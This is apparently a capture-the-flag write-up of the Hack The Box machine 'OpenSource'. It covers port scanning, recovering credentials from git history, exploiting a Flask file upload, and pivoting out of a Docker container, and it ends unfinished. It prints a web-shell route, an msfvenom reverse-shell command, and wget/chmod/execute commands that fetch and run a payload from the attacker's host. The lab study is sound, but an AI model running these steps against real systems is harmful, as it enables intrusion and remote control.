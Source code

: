# Hackthebox - OpenSource

![OpenSource](.res/../../.res/HTB-OpenSource.png)

- [Opensource on Hackthebox](https://app.hackthebox.com/machines/471)

## Nmap

```bash
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1e59057ca958c923900f7523823d055f (RSA)
|   256 48a853e7e008aa1d968652bb8856a0b7 (ECDSA)
|_  256 021f979e3c8e7a1c7caf9d5a254bb8c8 (ED25519)
80/tcp   open     http    Werkzeug/2.1.2 Python/3.10.3
|_http-server-header: Werkzeug/2.1.2 Python/3.10.3
|_http-title: upcloud - Upload files for Free!
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.10.3
|     Date: Sun, 23 Jul 2023 00:03:02 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 5316
|     Connection: close
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>upcloud - Upload files for Free!</title>
|     <script src="/static/vendor/jquery/jquery-3.4.1.min.js"></script>
|     <script src="/static/vendor/popper/popper.min.js"></script>
|     <script src="/static/vendor/bootstrap/js/bootstrap.min.js"></script>
|     <script src="/static/js/ie10-viewport-bug-workaround.js"></script>
|     <link rel="stylesheet" href="/static/vendor/bootstrap/css/bootstrap.css"/>
|     <link rel="stylesheet" href=" /static/vendor/bootstrap/css/bootstrap-grid.css"/>
|     <link rel="stylesheet" href=" /static/vendor/bootstrap/css/bootstrap-reboot.css"/>
|     <link rel=
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.10.3
|     Date: Sun, 23 Jul 2023 00:03:03 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, GET, HEAD
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
3000/tcp filtered ppp
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.93%I=7%D=7/22%Time=64BC6E36%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,1573,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.1\.2\x20P
SF:ython/3\.10\.3\r\nDate:\x20Sun,\x2023\x20Jul\x202023\x2000:03:02\x20GMT
SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20
SF:5316\r\nConnection:\x20close\r\n\r\n<html\x20lang=\"en\">\n<head>\n\x20
SF:\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\x20\x20\x20\x20<meta\x20name=
SF:\"viewport\"\x20content=\"width=device-width,\x20initial-scale=1\.0\">\
SF:n\x20\x20\x20\x20<title>upcloud\x20-\x20Upload\x20files\x20for\x20Free!
SF:</title>\n\n\x20\x20\x20\x20<script\x20src=\"/static/vendor/jquery/jque
SF:ry-3\.4\.1\.min\.js\"></script>\n\x20\x20\x20\x20<script\x20src=\"/stat
SF:ic/vendor/popper/popper\.min\.js\"></script>\n\n\x20\x20\x20\x20<script
SF:\x20src=\"/static/vendor/bootstrap/js/bootstrap\.min\.js\"></script>\n\
SF:x20\x20\x20\x20<script\x20src=\"/static/js/ie10-viewport-bug-workaround
SF:\.js\"></script>\n\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href
SF:=\"/static/vendor/bootstrap/css/bootstrap\.css\"/>\n\x20\x20\x20\x20<li
SF:nk\x20rel=\"stylesheet\"\x20href=\"\x20/static/vendor/bootstrap/css/boo
SF:tstrap-grid\.css\"/>\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20hr
SF:ef=\"\x20/static/vendor/bootstrap/css/bootstrap-reboot\.css\"/>\n\n\x20
SF:\x20\x20\x20<link\x20rel=")%r(HTTPOptions,C7,"HTTP/1\.1\x20200\x20OK\r\
SF:nServer:\x20Werkzeug/2\.1\.2\x20Python/3\.10\.3\r\nDate:\x20Sun,\x2023\
SF:x20Jul\x202023\x2000:03:03\x20GMT\r\nContent-Type:\x20text/html;\x20cha
SF:rset=utf-8\r\nAllow:\x20OPTIONS,\x20GET,\x20HEAD\r\nContent-Length:\x20
SF:0\r\nConnection:\x20close\r\n\r\n")%r(RTSPRequest,1F4,"<!DOCTYPE\x20HTM
SF:L\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x
SF:20\x20\x20\x20\"http://www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x
SF:20\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equ
SF:iv=\"Content-Type\"\x20content=\"text/html;charset=utf-8\">\n\x20\x20\x
SF:20\x20\x20\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x2
SF:0</head>\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>E
SF:rror\x20response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code
SF::\x20400</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20req
SF:uest\x20version\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20<p>Error\x20code\x20explanation:\x20HTTPStatus\.BAD_REQUEST\x20-\x20
SF:Bad\x20request\x20syntax\x20or\x20unsupported\x20method\.</p>\n\x20\x20
SF:\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 103.67 seconds
```

## Port 80

We land here  

![Landing](../.res/2023-07-22-20-13-56.png)  

When we click on "Take me there!" we get to a file upload functionality  

And when clicking on download we get a zip file named `source.zip`  
We get a git folder  

![git folder](../.res/2023-07-22-20-20-09.png)  

We can explore a little.  

![Git explorations](../.res/2023-07-22-20-22-01.png)  

We can try to use gitTools Extractor and look in the folders of previous version we got.  
Doing this method we find a json file in .vscode with credentials  

![Json with creds](../.res/2023-07-22-21-56-11.png)  

Also, we have the code for the file upload functionality in `app/app/views.py`:  

```py
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))
```

It seems like it does not check the type of the file and we also might be able to abuse path traversal vulnerability.  

We can append the views.py code with this line  

```python
@app.route('/cmd')
def execute():
	return subprocess.check_output(request.args.get('cmd').split(" "))
```

We also need to import 

Upload it and lively modify the request with burp as follow  

![Upload](../.res/2023-07-29-20-49-49.png)

So now we should have remote code execution  

![RCE](../.res/2023-07-29-20-52-31.png)  

Let's try to get a reverse shell with msfvenom `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.19 LPORT=4444 -f elf -o shell`

Now we can serve it with `sudo python3 -m http.server 8000`

We can set up a listener with msfconsole  

![listerner](../.res/2023-07-29-20-58-01.png)  

- `http://10.10.11.164/cmd?cmd=wget http://10.10.14.19:8000/shell`
- `http://10.10.11.164/cmd?cmd=chmod 777 shell`
- `http://10.10.11.164/cmd?cmd=./shell`

And we get a shell  

![shell](../.res/2023-07-29-21-15-16.png)  

As expected we are in a docker container.  
So we need to escape it somehow.  

Let's check the internal network by setting up proxychains  

![proxychains](../.res/2023-07-29-21-20-12.png)  

We add this to our /etc/proxychains.conf  

![proxychains](../.res/2023-07-29-21-22-11.png)  

Now we need to change our routes through metasploit  

![autoroutes](../.res/2023-07-29-21-26-28.png)  

Now we should be able to scan the internal network  

In our proxychains conf file we first need to enable quiet_mode, otherwise it is going to blur the results.  

`proxychains nmap -A -v 172.17.0.1`

![Nmap](../.res/2023-07-29-21-31-59.png)  

Let's upload chisel in our target `upload chisel`  
From our machine we run it as well  

![chisel](../.res/2023-07-29-22-04-17.png)  

- From meterpreter `execute -f /tmp/chisel -i -a "client 10.10.14.19:9999 R:3000:172.17.0.1:3000"`

## coming soon